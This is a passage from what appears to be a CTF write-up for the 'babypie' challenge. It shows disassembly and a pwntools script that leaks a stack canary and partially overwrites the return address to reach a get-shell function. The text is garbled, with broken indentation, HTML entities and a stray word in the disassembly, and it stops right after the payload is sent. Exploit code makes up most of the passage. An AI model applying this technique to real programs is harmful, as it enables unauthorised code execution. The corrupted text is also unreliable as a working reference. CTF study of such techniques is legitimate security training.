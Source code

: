 ```asm
   0x55dc43694a3e:	push   rbp

   0x55dc43694a3f:	mov    rbp,rsp

   0x55dc43694a42:	lea    rdi,[rip+0xd7]        # 0x55dc43694b20

   0x55dc43694a49:	call   0x55dc436947d0

   0x55dc43694a4e:	nop

   0x55dc43694a4f:	pop    rbp

0x55dc43694a50: right
   0x55dc43694a51:	push   rbp

   0x55dc43694a52:	mov    rbp,rsp

   0x55dc43694a55:	sub    rsp,0x10

```

It can be found that the return address at this time is different from the 16 bits of the address of the get shell function. If the lower 16 bits are set to `0x?A3E`, there is a certain probability of getting shell.


The final script is as follows:
```python

#!/usr/bin/env python

# -*- coding: utf-8 -*-



from pwn import *

#  context.log_level = "debug"

context.terminal = ["deepin-terminal", "-x", "sh", "-c"]



while True:

    try:

        io = process("./babypie", timeout = 1)



# gdb.attach (I)
        io.sendafter(":\n", 'a' * (0x30 - 0x8 + 1))

io.recvuntil (&#39;a&#39; * (0x30 - 0x8 + 1))
canary = &#39;0&#39; + io.recvn (7)
        success(canary.encode('hex'))



# gdb.attach (I)
        io.sendafter(":\n", 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A')


```